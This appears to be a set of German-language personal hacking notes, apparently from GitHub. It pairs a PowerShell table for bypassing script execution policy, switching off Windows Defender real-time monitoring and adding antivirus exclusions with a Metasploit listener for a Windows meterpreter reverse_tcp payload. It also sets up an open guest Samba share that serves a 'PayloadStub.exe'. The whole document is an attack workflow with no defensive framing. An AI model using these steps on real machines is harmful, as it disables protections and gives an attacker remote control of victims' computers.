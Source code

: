 # Notizen – 81a5terfr34k

---

## Windows: 

---

### Richtlinien mit Powershell Befehlen ändern 
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

---

- Payload erstellen: msfvenom
- Meterpreter sitzung Listener:

```bash
msfconsole
msf6> use exploit/multi/handler
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6> set LHOST <kali IP>
msf6> set LPORT 4444
msf6> set ExitOnSession false
msf6> exploit -j
````

---

- smbshare Ordner erstellen: sudo mkdir -p /srv/smbshare
- smbshare Ordner zugriff erteilen: sudo chmod -R 777 /srv/smbshare
- Payload nach smbshare Ordner verschieben: mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/
- Inhalt von smbshare kontrollieren: ls -l /srv/smbshare
- SMB Dienst starten: sudo systemctl start smbd
- SMB Dienst status prüfen: sudo systemctl status smbd
- Zugriff auf smbshare testen: smbclient //localhost/share -N
- aktive Samba Konfiguration anzeigen: testparm ( /etc/samba/smb.conf)
- SMB Konfigurations-DATEI bearbeiten: sudo nano /etc/samba/smb.conf  
- NEUEN [share]-Block ganz unten im dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
   
[global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd
